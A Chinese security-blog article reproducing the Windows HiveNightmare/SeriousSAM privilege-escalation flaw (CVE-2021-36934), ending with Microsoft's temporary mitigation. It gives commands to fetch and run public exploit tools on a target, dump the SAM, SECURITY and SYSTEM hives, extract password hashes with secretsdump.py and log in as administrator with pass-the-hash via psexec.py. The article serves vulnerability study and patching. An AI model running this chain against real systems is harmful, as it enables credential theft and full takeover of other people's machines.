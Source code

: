 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/rzds0qw2RSjNS3PGbBTh1w)

**点击蓝字**

![](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif)

**关注我们**

  

**_声明  
_**

本文作者：TeamsSix  
本文字数：1270

阅读时长：20~30 分钟

附件 / 链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

**_前言_**

  

7 月 20 日，微软确认了一个新的本地提权漏洞，该漏洞会影响 Windows 自 2018 年 10 月以来发布的版本，即 Windows 10 Version 1809 以后的版本。

不过值得注意的是该漏洞不影响 Windows Server 版本。

对于这个漏洞安全研究成员将其称为 HiveNightmare 或者 SeriousSAM ，该漏洞允许低权限的用户访问 Windows 系统文件，成功利用此漏洞的攻击者可以使用 SYSTEM 特权运行任意代码。

根据微软的介绍，出现本地提权漏洞是由于多个系统文件（包括安全账户管理器数据库 SAM）过度许可访问控制列表所导致。

目前 POC 和 EXP 已经被公开，利用公开的 POC 可以低权限账号读取 SAM 等文件。

一、

**_检查是否易受攻击_**

执行以下命令：

```
icacls C:\windows\system32\config\sam
```

如果输出 BUILTIN\Users:(I)(RX) 表示该系统易受攻击。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNrFTfSrxvWGM5gy1xsaWGYpGib5KfR6KFrmL17MuZA0ZXPSv5GN8cGXQ/640?wx_fmt=png)

如果输出 Access is denied 或拒绝访问表示该系统不易受攻击。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNT0fqHOEGN6rdt7FPcRZDXVsVAibr8gwHmPU0NQKzP6uB9V0GBNSLgEA/640?wx_fmt=png)

二、

**_漏洞复现_**

EXP 地址为：https://github.com/GossiTheDog/HiveNightmare

作者编译好的 exe 文件：

https://github.com/GossiTheDog/HiveNightmare/releases/download/0.5/HiveNightmare.exe

直接将作者编译好的 HiveNightmare.exe 拷贝到目标系统上执行，这里以 Windows 10 1809 为例。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNwlTtArpyroNfHEFOCN9rEJSh17MNajCVSQweMJsvbEZfzqrBJGjGOQ/640?wx_fmt=png)

可以看到在低权限账号下，成功利用 CVE-2021–36934 读取到了 SAM、SECURITY、SYSTEM 三个文件。

除了 HiveNightmare 项目外，ShadowSteal 项目也能实现同样的效果，不过该项目需要编译使用，编译步骤如下：

在 Linux 下运行以下命令，以 Kali 为例。

```
sudo apt-get install nim
nimble install zippy argparse
nimble install winim
sudo apt-get install mingw-w64
git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
make && cd bin/ && ls -l
```

将编译好的 ShadowSteal.exe 放到目标系统上直接执行即可。

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCN4EIgmO6BhZnl2JyIicic9qMofNHCtPA98mHpkx1iclmpz8Uw3frlicS7Pg/640?wx_fmt=png)

在获得 SAM、SECURITY、SYSTEM 文件后，我们就可以使用 secretsdump.py 获取目标用户的 hash 了。

```
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket/examples
python3 secretsdump.py -sam SAM-2021-06-17 -system SYSTEM-2021-06-17 -security SECURITY-2021-06-17 LOCAL
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNGOYtr55v3ZhibXu4yFxJicoQ0HxZ5ZkibT4hUhblhd6NNpaYHhyu2tExQ/640?wx_fmt=png)

再使用 psexec.py 直接利用 administrator 的 hash 登录管理员账户，获得 SYSTEM 权限会话。

```
python3 psexec.py -hashes xxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxx administrator@172.16.214.10 cmd.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNzByIwIRQ8Y1MCvaE6Kh2GiaNJPhNvlq1FjdTRoS05MhYODbkvIULaPA/640?wx_fmt=png)

三、

**_修复方案_**

微软目前仍在研究该漏洞（编号为 CVE-2021-36934），还未发布补丁更新。不过微软提供了一个临时性的解决方案。

1、限制对 %windir%\system32\config 内容的访问

以管理员身份打开命令提示符或 Windows PowerShell，运行以下命令：icacls %windir%\system32\config*.* /inheritance:e

2、删除卷影复制服务 (VSS) 卷影副本

删除限制访问 %windir%\system32\config 之前存在的任何系统还原点和卷影卷，创建一个新的系统还原点（如果需要）。

不过在操作时需要注意的是，从系统中删除卷影副本会影响系统和文件的 “恢复 “操作。

  

**_后记_**

  

参考文章：  

https://mp.weixin.qq.com/s/zSHwBUe-1ObumPt6v0pxMg

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934

https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247494395&idx=1&sn=c40e68e018c2112d7e3ce74b9a55c724

  

**_作者_**

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/4LicHRMXdTzD99wIG8C84pibZvicNHnXlCNn54ict2OL3qnu1rbR91kaOp8TZG5N8uBja7QibYJwYHFnBBPDwQfwhwQ/640?wx_fmt=png)

TeamsSix

我靠着那加给我力量的，凡事都能作。(腓立比书 4:13 和合本)

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec 狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

![](https://mmbiz.qpic.cn/mmbiz_jpg/4LicHRMXdTzBhAsD8IU7jiccdSHt39PeyFafMeibktnt9icyS2D2fQrTSS7wdMicbrVlkqfmic6z6cCTlZVRyDicLTrqg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/gdsKIbdQtWAicUIic1QVWzsMLB46NuRg1fbH0q4M7iam8o1oibXgDBNCpwDAmS3ibvRpRIVhHEJRmiaPS5KvACNB5WgQ/640?wx_fmt=gif)